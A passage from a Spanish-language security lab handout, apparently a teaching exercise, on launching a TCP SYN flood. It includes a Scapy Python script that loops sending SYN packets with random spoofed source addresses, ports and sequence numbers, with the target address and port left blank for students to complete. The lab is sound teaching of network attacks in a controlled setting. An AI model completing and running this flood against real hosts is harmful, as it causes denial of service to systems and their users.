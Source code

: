 \subsection{Tarea 1.1: Lanzando el ataque usando Python}

Hemos provisto un programa de Python llamado \texttt{synflood.py}, pero
intencionalmente hemos omitido algunos datos esenciales en el código.
Este código envía paquetes TCP SYN spoofeadoos, con una dirección IP de origen, el puerto destino y el número de secuencia, generados de forma aleatoria.
Los estudiantes deberán de completar y terminar el código y usarlo para lanzar el ataque en la máquina víctima.


\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

Deje que el ataque se ejecute durante al menos un minuto, luego intente hacer telnet en la máquina de la víctima y vea si puede tener éxito. Es muy probable que
su ataque falle. Esto puede deberse a varios problemas. A continuación se enumeran las posibles causas de estos fallos y como abordarlas.


